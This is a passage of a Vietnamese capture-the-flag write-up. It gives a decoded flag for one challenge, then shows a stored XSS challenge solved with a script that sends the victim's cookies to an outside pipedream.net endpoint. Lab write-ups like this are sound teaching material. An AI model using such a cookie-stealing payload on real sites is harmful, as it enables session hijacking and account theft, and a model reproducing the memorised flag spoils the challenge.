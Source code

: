 - Tiếp tục decode từ dec -> ascii, ta được flag.

```
Flag:  786OsErtk12
```


# 10. XSS - Stored 1

- Thử payload:

![1](1/../img/10/Screenshot%20from%202023-01-10%2017-36-40.png)

- Nhận thấy bị dính XSS

![1](1/../img/10/Screenshot%20from%202023-01-10%2017-36-56.png)

- Gửi cookie đến server của ta:

```
<script>document.write("<img src='https://1cbc05c9d3b9533c136bdb7d71fce3a0.m.pipedream.net?="+document.cookie+"'></img>");</script>
```
